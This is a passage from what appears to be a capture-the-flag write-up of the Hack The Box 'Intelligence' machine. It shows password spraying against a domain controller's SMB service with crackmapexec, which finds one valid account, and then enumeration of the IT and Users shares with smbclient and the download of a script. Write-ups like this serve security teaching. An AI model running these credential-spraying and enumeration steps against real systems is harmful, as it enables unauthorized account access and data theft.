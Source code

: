 I got this password from file `2020-06-04-upload.txt` .

```bash
NewIntelligenceCorpUser9876
```
{: .nolineno}

So I have some users and a password so lets brute force a service lets see if any user matches this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ crackmapexec smb 10.10.10.248 -u username.txt -p 'NewIntelligenceCorpUser9876' --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Mozilla:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
```
{: .nolineno}

![Untitled](Intelligence/Untitled%203.png)

I got one user `intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876` .

I looked inside these shares and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ smbclient //10.10.10.248/IT -U 'intelligence.htb\Tiffany.Molina'
Password for [INTELLIGENCE.HTB\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 06:20:55 2021
  ..                                  D        0  Mon Apr 19 06:20:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 06:20:55 2021

		3770367 blocks of size 4096. 1458847 blocks available
smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (2.3 KiloBytes/sec) (average 2.3 KiloBytes/sec)
smb: \> exit
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ smbclient //10.10.10.248/Users -U 'intelligence.htb\Tiffany.Molina'
Password for [INTELLIGENCE.HTB\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Mon Apr 19 06:50:26 2021
  ..                                 DR        0  Mon Apr 19 06:50:26 2021
  Administrator                       D        0  Mon Apr 19 05:48:39 2021
  All Users                       DHSrn        0  Sat Sep 15 12:51:46 2018
  Default                           DHR        0  Mon Apr 19 07:47:40 2021
  Default User                    DHSrn        0  Sat Sep 15 12:51:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 12:41:27 2018
  Public                             DR        0  Mon Apr 19 05:48:39 2021
  Ted.Graves                          D        0  Mon Apr 19 06:50:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 06:21:46 2021

		3770367 blocks of size 4096. 1458847 blocks available
smb: \>
```
{: .nolineno}
